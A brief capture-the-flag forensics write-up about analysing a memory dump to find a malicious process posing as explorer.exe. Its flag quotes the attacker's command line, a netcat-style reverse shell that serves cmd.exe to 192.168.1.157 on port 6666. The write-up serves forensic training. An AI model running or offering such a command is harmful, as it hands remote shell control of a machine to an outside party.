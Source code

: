 # Commands
![](assets/forensics/commands_1.png)
[Zip File](assets/forensics/mem.raw) 
Please before look to [Captured Memories](Forensics/Captured%20Memories/index.md)
From [cmdline output](assets/forensics/cmdline.txt) we can easily  see 
process `3100` use process `5448`'s  malicious explorer.exe.
![](assets/forensics/commands_2.png)


Flag: `flag{explorer.exe  192.168.1.157 6666 -e cmd.exe}` 